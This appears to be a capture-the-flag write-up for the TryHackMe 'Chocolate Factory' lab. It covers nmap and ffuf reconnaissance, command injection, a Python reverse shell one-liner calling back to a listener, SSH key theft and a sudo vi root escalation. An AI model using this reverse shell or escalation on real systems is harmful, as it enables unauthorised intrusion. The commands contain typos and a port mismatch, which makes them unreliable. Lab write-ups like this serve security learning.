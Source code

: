 This is a vulnerable lab available @ https://tryhackme.com/room/chocolatefactory



POC

1. Nmap scan: The pentest started with a nmap scan using 
nmap -T4 -sV -A 10.10.12.204  
![image](https://github.com/user-attachments/assets/d6c9ab51-46d6-495e-981e-8544c5f4d30c)

This have back the services running on the server,


a. Port 21: This allowed anonymous login, and the port was accessed using 
ftp  10.10.12.204

After a succesful login, the file was downloaded 
![image](https://github.com/user-attachments/assets/ef7fc003-7fd9-4f0f-9684-7ec8988b2df4)



picture showing the download 
![gum_room](https://github.com/user-attachments/assets/39218184-a257-44b5-9826-ecdcd8ec7f1d)

b.  80: The website has a homepage with a login form

The homepage
![image](https://github.com/user-attachments/assets/88eac3bd-6883-4760-a27f-67bc0fafd0b0)


The port 80 was subjected to directory bruteforce using FFUF
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.204/FUZZ -e .php, .HTML 

and some directories were gotten, they include home.php, index.html, and others 

Picture below shows the result of the FFUF 
![image](https://github.com/user-attachments/assets/5d46e6f6-472b-4618-a95b-b9326c204f07)


getting to The home.php, it was discovered that the page has a command functionality 
![image](https://github.com/user-attachments/assets/7e8555a3-049a-4558-aa7c-c8305eaa9b4c)


Trying the comman d"Cat /etc", the website gave a response showing that it is vulnerable to command ninjection vulnerability
![image](https://github.com/user-attachments/assets/8c73edae-6c13-4884-8868-df07f4aef56d)



the website was querried to confirm if there is a python binary on it 

using the command 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.106.235",2294));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
and
nc -nlvp 2249

A reverse shell was gotten 
Picture showing the reverse shell gotten from the server hosting the website
![image](https://github.com/user-attachments/assets/eb87dc55-adaa-46cc-9b3d-5ca84aaad3db)


And we were able to get initial access...





















2. Directoy bruteforce that leads to a acommand njectin page
3. run a php or bash shell command 

after getting the shell
find the user account
navigate to charlie's account and get the user flag by
  1. grabbing a private ssh keys
  2. ssh charlie@ip -i name_of_key

then
get the user flag
then
  sudo -l
  sudo /usr/bin.vi
  then !/bin/bash

  
